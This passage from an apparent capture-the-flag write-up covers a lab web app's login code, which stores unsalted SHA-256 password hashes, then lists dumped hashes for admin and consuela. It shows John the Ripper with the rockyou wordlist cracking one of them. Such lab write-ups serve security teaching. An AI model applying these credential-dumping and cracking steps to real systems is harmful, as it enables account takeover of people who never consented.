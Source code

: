 There are two hashes, one for admin and another for consuela. This hashes are sha256 as can be shown in the login functionality of the script that runs the webserver:

```python
www-data@iclean:/opt/app$ cat app.py 
<..SNIP..>
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html', error=False)
    elif request.method == 'POST':
        username = request.form['username']
        password = hashlib.sha256(request.form['password'].encode()).hexdigest()

        with pymysql.connect(**db_config) as conn:
            with conn.cursor() as cursor:
                cursor.execute('SELECT role_id FROM users WHERE username=%s AND password=%s', (username, password))
                result = cursor.fetchone()

                if result is None:
                    return render_template('login.html',error='Invalid username or password')
                else:
                    session['role'] = result[0]
                    if session['role'] == hashlib.md5(b'admin').hexdigest():
                        return redirect(url_for('dashboard'))
                    else:
                        return redirect(url_for('/'))
    else:
        return make_response('Invalid request format.', 400)
<..SNIP..>
```

I will try to crack them with john and the consuela one is crackable:

```bash
❯ cat sql-hashes.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: sql-hashes.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ admin:2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
   2   │ consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```plaintext
❯ john -w=/usr/share/wordlists/rockyou.txt sql-hashes.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:01 DONE (2024-07-31 21:16) 0.8849g/s 12693Kp/s 12693Kc/s 16057KC/s -sevim-..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
